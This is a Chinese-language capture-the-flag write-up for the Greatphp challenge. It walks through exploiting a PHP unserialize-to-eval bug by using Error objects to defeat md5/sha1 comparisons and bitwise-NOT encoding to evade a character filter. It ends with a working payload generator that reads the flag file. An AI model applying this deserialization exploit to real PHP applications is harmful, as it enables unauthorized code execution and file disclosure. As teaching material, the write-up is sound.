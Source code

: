 # [极客大挑战 2020]Greatphp

## 知识点

`php反序列化类md5绕过`

`error类`

## 解题

题目给出了`php源码`

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
               eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

发现无法使用常规的`数组绕过`,因为`md5`和`sha1`可以对类进行`hash`，并且会出发这个类的`__toString`方法，且当`eval()`传入一个类对象时，也会调用这个类的`__toString`方法

我们用`php的内置类`来绕过，常用的是`Error`和`Exception`，它们当中有`__toString`方法，当类被当作字符串处理时，就会调用该函数

### 使用Error或Exception绕过hash比较

```php
<?php

error_reporting(0);
$a = new Error("demo", 1);$b = new Error("demo", 2);

if (($a != $b) && (md5($a) === md5($b)) && (sha1($a) === sha1($b))) {
        echo "bypass success";
}
```

![](./img/[极客大挑战 2020]Greatphp-1.png)

> 注:`$a`和`$b`构造时要在同一行，不然会错误

### 绕过上部分正则表达式

#### 小括号绕过

因为过滤了`(`、`)`，我们可以使用`include "/flag"`

#### 引号绕过

通过`取反`绕过

#### <?php绕过

使用`<?=`绕过

因为使用`new Error`进入`eval`时，变成`eval("...Error: <?php payload ?>")`，后面还要执行`php`的话需要将前面闭合，加入`?>`，故最终`payload`为

```php
<?php

error_reporting(0);

class SYCLOVER {
        public $syc;
        public $lover;
}

$payload = "?><?=include~" . urldecode("%D0%99%93%9E%98") . "?>";

$a = new SYCLOVER();
$b = new Error($payload, 1);$c = new Error($payload, 2);
$a->syc = $b;
$a->lover = $c;

echo urlencode(serialize($a));
```

![](./img/[极客大挑战 2020]Greatphp-2.png)

![](./img/[极客大挑战 2020]Greatphp-3.png)

